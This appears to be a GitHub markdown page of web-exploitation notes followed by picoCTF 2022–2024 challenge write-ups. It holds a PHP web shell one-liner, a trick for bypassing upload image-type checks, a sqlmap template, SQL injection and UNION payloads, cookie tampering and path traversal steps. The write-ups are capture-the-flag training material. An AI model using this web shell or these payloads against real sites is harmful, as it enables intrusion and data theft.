 ## Web Exploitation

### inspect
  - wget -m -p -E -k -K -np HOST_URL

### shells
#### php
- ```<?php echo shell_exec($_GET['e'].' 2>&1'); ?>```
- bypass php `exif_imagetype` function: change with `hexedit` file header to `FF D8 FF E0` jpg signatures.


### sql injection
- can use `like` sql operation in blind sql injection.["for case senstive like in mysql must use `like binary`"]
#### sqlmap
- sqlmap -u "HOST_URL" --proxy=http://127.0.0.1:8080 --string="YOUR_PATTERN" --auth-type=Basic --auth-cred=USERNAME:PASSWORD --data "filed=filed_value"






### picoCTF 2024
#### IntroToBurp
![IntroToBurp question](img/IntroToBurp-q.png)

> fill "Registration" and in next step don't send "OPT" and [DONE].

---
---
### picoCTF 2023
#### More SQLi
![More SQLi question](img/MoreSQLi-q.png)

> just inject `' or 1=1;--` in password field.

<br>

> list all of tables with this query : `SomeThings' UNION SELECT name, sql, null from sqlite_master;--`

![all tables](img/MoreSQLi-1.png)

<br>

> in `more_table` table `flag` cloumn is exist, so we trying to "select flag from more_table" with this query : `SomeThings' UNION SELECT id, flag, 3 from more_table;--` and [DONE].

![flag](img/MoreSQLi-2.png)

---
---
### picoCTF 2022
#### SQLiLite
![SQLiLite question](img/SQLiLite-q.png)

> in first step use we trying to login as "admin" user with this request and inject `' or '1'='1';--` in password filed.

![login page](img/SQLiLite-1.png)

> after login see this massage so we trying to inspect this page and [DONE].

![after log in](img/SQLiLite-2.png)

---
#### SQL Direct
![SQL Direct question](img/SQLDirect-q.png)

> i use docker postgres container for connect this PostgreSQL server:

![docker postgres container after connect](img/SQLDirect-1.png)

> trying to print list of all tables with this query ` \dt+ *.*` to find related table to this question.

![list of tables](img/SQLDirect-2.png)

> Dump 'flags' tables with this query : `select * from flags` and [DONE].

![flag](img/SQLDirect-3.png)

---
#### Roboto Sans
![Roboto Sans question](img/RobotoSans-q.png)

> trying to load site and see first page.

![first page](img/RobotoSans-1.png)

> The name of this challenge reminds us of the "robots.txt" file so after load this site i try to print "robots.txt"‌ file.

![robots.txt file ](img/RobotoSans-2.png)

> in this file some information like [Base64](https://en.wikipedia.org/wiki/Base64) format, so i try [CyberChef](https://gchq.github.io/CyberChef/) to decode this strings.

![robots decoded strings](img/RobotoSans-3.png)

> in next step open file "js/myfile.txt" and [DONE].

![flag](img/RobotoSans-4.png)

---
#### Power Cookie
![Power Cookie question](img/PowerCookie-q.png)

> trying to load first page and see this page:

![first page](img/PowerCookie-1.png)

> hint "Do you know how to modify cookies?" so go to cookies and check them :

![cookies](img/PowerCookie-2.png)

> in next step i press the "Continue as guest" button and go to this page:

![before change isAdmin](img/PowerCookie-3.png)

> so i try to change "isAdmin" cookies and change the valuse of "isAdmin" to 1 and [DONE]:

![flag](img/PowerCookie-4.png)

---
#### Forbidden Paths
![Forbidden Paths question](img/ForbiddenPaths-q.png)

> load site first page :

![first page](img/ForbiddenPaths-1.png)

> This page receives the name of the file and prints its content. what happend if i use relative path like `../../../../../flag.txt` as file name ? use reletive path and [DONE].

![flag](img/ForbiddenPaths-2.png)
